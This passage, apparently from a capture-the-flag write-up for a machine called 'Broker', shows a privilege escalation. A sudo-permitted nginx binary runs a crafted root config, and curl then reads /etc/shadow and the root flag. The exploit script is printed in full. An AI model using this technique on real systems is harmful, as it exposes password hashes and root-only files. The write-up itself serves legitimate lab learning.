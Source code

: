 ### Privilege Escalation

For privilege escalation we can run `sudo -l` and see that we can run /usr/sbin/nginx with elevated permissions:

```
activemq@broker:/tmp$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking for ways to exploit this I found this writeup: https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/

Here we are provided with some exploit code to read normally protected files visible only to root:

```	
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
```

I'll update the line `sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf` to `sudo /usr/sbin/nginx -c /tmp/nginx.conf`

And for the curl request I'll update it to getch the root.txt flag for me:
`curl http://localhost:1337/root/root.txt`

![broker_root.png](../assets/broker_assets/broker_root.png)
